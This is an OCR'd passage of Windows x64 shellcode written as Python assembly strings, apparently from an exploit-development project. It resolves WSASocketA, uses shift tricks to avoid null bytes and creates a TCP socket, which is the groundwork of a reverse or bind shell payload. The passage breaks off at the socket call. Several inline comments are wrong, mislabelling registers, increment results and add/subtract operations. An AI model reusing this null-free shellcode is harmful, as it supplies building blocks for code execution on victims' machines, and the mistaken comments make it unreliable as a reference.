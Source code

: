 ```
        " push rax;"                        # Push the complete function name "WSASocketA" onto the stack
        " mov rdx, rsp; "                   # Move the stack pointer to RDX, pointing to "WSASocketA"
        " mov rcx, r15; "                   # Copy the base address of WS2_32.dll from R15 to RCX
        # " sub rsp, 0x30; "                # Allocate 48 bytes on the stack to maintain alignment (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " sub rsp, rbx; "                   # Subtract 0x30 from rsp

        " call r14;"                        # Call GetProcAddress, which is stored in R14
        # " add rsp, 0x30; "                # Clean up the allocated stack space (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out rbx to start fresh
        " add rbx, 0x30FFFFF; "             # Load rbx with a large number
        " shr rbx, 0x14; "                  # Right-shift rbx by 20 bits to get 0x30
        " add rsp, rbx; "                   # Add 0x30 to rsp

        #" add rsp, 0x10; "                 # Adjust stack to remove the space used by the string "WSASocketA" (Null Byte)
        # Null byte fix
        " xor rbx, rbx; "                   # Zero out r15 to start fresh
        " add rbx, 0x10FFFFF; "             # Load r15 with a large number
        " shr rbx, 0x14; "                  # Right-shift r15 by 20 bits to get 0x10
        " add rsp, rbx; "                   # Subtract 0x10 from rsp

        " mov r12, rax; "                   # Store the address of WSASocketA in R12 for later use
        # Allocate stack space and initialize socket creation with WSASocketA
        " add rsp, 0xfffffffffffffdf8;"     # Free up space in the stack
        " xor rdx, rdx;"                    # Zero out RDX (used as 'dwFlags' which is NULL in this context)
        # " sub rsp, 88;"                   # Additional stack allocation, possibly for local variables or alignment
        # Null byte fix
        " xor rax, rax; "                   # Zero out rax to start fresh
        " add rax, 0x88FFFFF; "             # Load rax with a large number
        " shr rax, 0x14; "                  # Right-shift rax by 20 bits to get 0x88
        " sub rsp, rax; "                   # Subtract 0x88 from rsp

        " mov [rsp+32], rdx; "              # Set parts of the stack frame to zero, likely part of protocol info or alignment padding
        " mov [rsp+40], rdx; "              # Another part of stack zeroing, further preparation for call parameters
        " inc rdx; "                        # Increment RDX to use as 'af', typically AF_INET (value 2 after increment)
        " mov rcx, rdx; "                   # Move RDX to RCX, set 'af' parameter for the socket
        " inc rcx; "                        # Increment RCX to use as 'type', typically SOCK_STREAM (value 3 after increment)
        " xor r8, r8;"                      # Zero out R8, used for 'protocol' (0 indicates default protocol for type)
        " add r8, 6;"                       # Set R8 to 6, corresponding to IPPROTO_TCP typically
        " xor r9, r9;"                      # Zero out R9, used for 'g' parameter (group ID, 0 indicates no group)
        " mov r9w, 98*4;"                   # Set R9W (lower 16 bits of R9) to 392, potentially a custom or undefined flag
        " mov ebx, [r15+r9];"               # Load a value from memory into EBX, possibly related to 'dwFlags' or another parameter offset
        " xor r9, r9;"                      # Zero out R9 again, prepare for 'dwFlags' (0 indicates default behavior)
        " call r12;"                        # Call WSASocketA, address stored in R12
```
